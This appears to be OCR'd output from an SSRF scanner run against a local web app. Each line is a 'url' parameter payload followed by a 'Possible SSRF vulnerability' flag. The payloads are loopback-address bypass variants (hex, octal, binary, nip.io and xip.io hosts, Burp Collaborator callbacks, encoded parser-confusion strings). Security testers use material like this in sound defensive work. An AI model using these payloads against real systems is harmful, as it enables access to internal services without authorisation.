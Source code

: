  ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.1` _(POST)_
- Testing: `http://localhost:4200/?url=localtest.me`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localtest.me` _(POST)_
- Testing: `http://localhost:4200/?url=customer1.app.localhost.my.company.127.0.0.1.nip.io`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=customer1.app.localhost.my.company.127.0.0.1.nip.io` _(POST)_
- Testing: `http://localhost:4200/?url=mail.ebc.apple.com`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=mail.ebc.apple.com` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1.nip.io`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1.nip.io` _(POST)_
- Testing: `http://localhost:4200/?url=www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us` _(POST)_
- Testing: `http://localhost:4200/?url=customer1.app.localhost.my.company.127.0.0.1.nip.io`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=customer1.app.localhost.my.company.127.0.0.1.nip.io` _(POST)_
- Testing: `http://localhost:4200/?url=bugbounty.dod.network`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=bugbounty.dod.network` _(POST)_
- Testing: `http://localhost:4200/?url=1ynrnhl.xip.io`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=1ynrnhl.xip.io` _(POST)_
- Testing: `http://localhost:4200/?url=spoofed.burpcollaborator.net`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=spoofed.burpcollaborator.net` _(POST)_
- Testing: `http://localhost:4200/?url=customer1.app.localhost.my.company.127.0.0.1.nip.io`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=customer1.app.localhost.my.company.127.0.0.1.nip.io` _(POST)_
- Testing: `http://localhost:4200/?url=spoofed.burpcollaborator.net`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=spoofed.burpcollaborator.net` _(POST)_
- Testing: `http://localhost:4200/?url=127.1.1.1%3A80%5C%40127.2.2.2%3A80%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.1.1.1%3A80%5C%40127.2.2.2%3A80%2F` _(POST)_
- Testing: `http://localhost:4200/?url=127.1.1.1%3A80%5C%40%40127.2.2.2%3A80%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.1.1.1%3A80%5C%40%40127.2.2.2%3A80%2F` _(POST)_
- Testing: `http://localhost:4200/?url=127.1.1.1%3A80%3A%5C%40%40127.2.2.2%3A80%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.1.1.1%3A80%3A%5C%40%40127.2.2.2%3A80%2F` _(POST)_
- Testing: `http://localhost:4200/?url=127.1.1.1%3A80%23%5C%40127.2.2.2%3A80%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.1.1.1%3A80%23%5C%40127.2.2.2%3A80%2F` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.1.3`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.1.3` _(POST)_
- Testing: `http://localhost:4200/?url=0`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0` _(POST)_
- Testing: `http://localhost:4200/?url=127.1`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.1` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.1`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.1` _(POST)_
- Testing: `http://localhost:4200/?url=localhost`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost` _(POST)_
- Testing: `http://localhost:4200/?url=1.0.0.127.in-addr.arpa`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=1.0.0.127.in-addr.arpa` _(POST)_
- Testing: `http://localhost:4200/?url=01111111000000000000000000000001`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=01111111000000000000000000000001` _(POST)_
- Testing: `http://localhost:4200/?url=0x7f.0x0.0x0.0x1`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0x7f.0x0.0x0.0x1` _(POST)_
- Testing: `http://localhost:4200/?url=0177.0.0.01`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0177.0.0.01` _(POST)_
- Testing: `http://localhost:4200/?url=7F000001`